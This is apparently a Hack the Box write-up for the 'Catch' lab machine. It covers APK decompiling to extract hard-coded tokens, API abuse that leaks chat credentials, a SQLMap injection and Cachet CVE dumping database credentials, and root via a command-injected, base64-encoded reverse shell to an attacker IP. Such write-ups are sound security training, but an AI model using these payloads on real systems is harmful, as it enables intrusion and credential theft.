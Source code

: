 ```yaml
---
layout: post
title: "Hack the Box: Catch"
tags:
    - CTF
    - HTB
---
```


Catch is a great example of applying basic APK reversing and CVE exploitation. It's an application that's intended to integrate Gitea and Let's Chat and makes the mistake of using hard-coded credentials and an insecure dashboard.

MACHINE NAME: [Catch](https://app.hackthebox.com/machines/Catch)
IP: 10.10.11.150
DIFFICULTY: Medium

## osint

Starting with an Nmap scan revealed a number of services running on the target.

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
3000/tcp open  ppp?    syn-ack
5000/tcp open  upnp?   syn-ack
```

Interestingly, there were two different Apache services, both on different versions, as well as another two ports that were not identified.

Cookies fetched by an Nmap script showed that there was a Gitea server running on port 3000. But the other ports were still unknown.

```bash
Set-Cookie: i_like_gitea=a9634c3d8acdc09d; Path=/; HttpOnly
```

Opening each of the pages in a web browser helped to identify these other services.

The main page on port 80 was a simple landing page for 'Catch Global Systems', allowing the user to download an APK file. This would have to be further investigated.

Port 3000 was running Gitea version 1.14.1 with Go 1.16.3 and port 5000 was running [Let's Chat](https://github.com/sdelements/lets-chat). Both of these were locked with passwords and default credentials did not work.

The last page of interest was a monitoring dashboard running on port 8000 which appeared to be based on Cachet 2.4. Some background research found a few different CVEs which could be useful however they all required an authenticated user and would not be useable at this point.


## reverse-engineering

Going back to the APK that was found, Apktool can be used to decompile the binary so that the source code can be browsed in another application such as VSCode.

```bash
apktool d ./catchv1.0.apk
```

According to the landing page that was found earlier, "The future enhancements [include] Lets-chat/Gitea integration", hinting that there could be API keys or hard-coded credentials in the application to integrate these services.

After looking around, there was one file that stood out based on its contents.

```bash
original/res/values/strings.xml
```

This file contained variables controlling the application name among other things as well as 3 different API keys; Gitea, Let's Chat and Slack.

```bash
<string name="gitea_token">b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0</string>

<string name="lets_chat_token">NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==</string>

<string name="slack_token">xoxp-23984754863-2348975623103</string>
```

## exploitation

Of the 3 tokens, only one seemed to work, which was Let's Chat. Following the [API documentation on Github](https://github.com/sdelements/lets-chat/wiki/API), Curl could be used to fetch the open rooms.

```bash
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms
```
```bash
61b86b28d984e2451036eb17 Status
61b8708efe190b466d476bfb Android Development
61b86b3fd984e2451036eb18 Employees
```

And this information could be used to then read messages from the rooms.

```bash
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms/61b86b28d984e2451036eb17/messages
```

```bash
"ah sure!"
"You should actually include this task to your list as well as a part of quarterly audit"
"Also make sure we've our systems, applications and databases up-to-date."
"Excellent!"
"Why not. We've this in our todo list for next quarter"
"@john is it possible to add SSL to our status domain to make sure everything is secure ?"
"Here are the credentials `john :  E}V!mywu_69T4C}W`"
"Sure one sec."
"Can you create an account for me ?"
"Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me."
```

This conversation revealed some credentials for the status page on port 8000. Testing these credentials on other pages showed that they are only used on this one page.

```bash
"Here are the credentials `john :  E}V!mywu_69T4C}W`"
```

Using SQLMap, it was possible to dump some more API keys from the database however they did not end up being necessary.

```bash
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C api_key,username --dump

+----------------------+----------+
| api_key              | username |
+----------------------+----------+
| 7GVCqTY5abrox48Nct8j | john     |
| rMSN8kJN9TPADl2cWv8N | admin    |
+----------------------+----------+
```

Instead, using a CVE for Cachet 2.4, detailed in [this blog post](https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection/), it was possible to dump the username and password of the configured MySQL database user.

Inputting these strings into the 'Mail From Address' field under settings and mail, and refreshing the page, returned the name and password of the user.

```bash
${DB_USERNAME} = will

${DB_PASSWORD} = s2#4Fg0_%3!
```

Now finally, with this information it is possible to connect with SSH and login as Will to read the user flag.

```bash
User Flag: 794e64d1eb9b77178f53792d5a0b60e8
```

## privilege escalation

The server was running a wildcard cronjob to execute the APKs in /opt/mdm/apk_bin so it was possible to recompile the apk with shellcode which would be run as a privileged user.

Adding the shellcode to "app_name" gave arbitrary code execution which could be used to start a reverse shell.
```bash
/bin/bash -l > /dev/tcp/10.10.14.98/9001 0<&1 2>&1
```

(strings.xml with Base64 encoded shell code)
```bash
Strings.xml
<string name="app_name">Catch; echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuOTgvOTAwMSAwPCYxIDI+JjEK | base64 -d | bash -i</string>
```

And a reverse listener could be started using Netcat on the local machine before uploading the APK to the server.

```bash
nc -lvp 9001
scp out.apk will@10.10.11.150:/opt/mdm/apk_bin/
```

```bash
listening on [any] 9001 ...
connect to [10.10.14.98] from status.catch.htb [10.10.11.150] 36122

> id
uid=0(root) gid=0(root) groups=0(root)
> ls
Catch
lets-chat
mdm
reset.sh
root.txt
run.sh
```